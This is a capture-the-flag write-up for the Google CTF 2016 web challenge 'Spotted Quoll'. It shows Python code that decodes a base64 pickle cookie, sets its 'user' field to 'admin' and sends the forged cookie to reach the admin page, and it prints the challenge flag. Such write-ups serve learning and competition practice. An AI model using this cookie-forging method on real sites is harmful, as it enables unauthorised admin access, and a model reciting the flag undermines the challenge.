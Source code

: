 # Google CTF 2016 : Spotted Quoll

**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

[This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


## Write-up

### Investigate
I start by enabling developer toolbar on Google Chrome and start capturing the network traffic.

I notice an 'Admin' button at the top of the page.  When I click on it, I just get redirected to the homepage and notice my URL bar updates as followed:
```
https://spotted-quoll.ctfcompetition.com/#err=user_not_found
```

However, I notice my browser downloaded a cookie at some point.

It looks like the cookie was retrieved from a 'GET' request at '/getCookie'.  This information will be useful when implemeting the script later.
```
Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
```

I have heard of 'pickle' before.  It's a format for serializing data, usually over a network.  Very similar to JSON.  I tried loading the above data directly into pickle.  But unfortunately, it threw an exception.

However, the pickle could be simply encoded in another format, perhaps base64....
```
Base64:
KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu

PlainTxt:
(dp1
S'python'
p2
S'pickles'
p3
sS'subtle'
p4
S'hint'
p5
sS'user'
p6
Ns.
```

Ok, that looks a lot more like pickle data to me, let's load it up in Python.

### Code

Load the pickle data
```python
#Decode the base64 pickle
pickb64 = cookie['obsoletePickle']
pick = b64decode(pickb64)

#Write the pickle to a tmp file
tmpf = 'tmp.p'
f = open(tmpf, 'wb')
f.write(pick)
f.close()

#load the pickle
obsoletePickle = pickle.load(open('tmp.p', 'rb'))
print('Real Pickle:\n%s\n' % str(obsoletePickle))
```

Print the pickle data
```
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

### Exploit
From the formatted pickle data, it should be pretty clear what's going on.  The 'user' field is set to None.  This is because we are not logged in.  I think we can trick the webiste!  Why don't we login as the admin by setting our 'user' attribute to 'admin'.

Modify the pickle data so that it reads...
```
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
```

Modify pickle data and dump back to raw data
```python
obsoletePickle['user'] = 'admin'

#Write to spoofed pickle to a new file
pickle.dump(obsoletePickle, open('spoofed.p', 'wb'))
spooff = 'spoofed.p'

#Read back as plain data
f = open(spooff, 'rb')
pick = f.read()
f.close()
```

Create the new cookie (encoded in base64)
```python
spoofed_cookie = dict(obsoletePickle=b64encode(pick))
```

Perform the attack to login to the admin page 'admin'
```
r = requests.get(URL + 'admin', verify=False, cookies=spoofed_cookie)
print(r.text)
```

### Script Output
```
HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```

Flag
```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
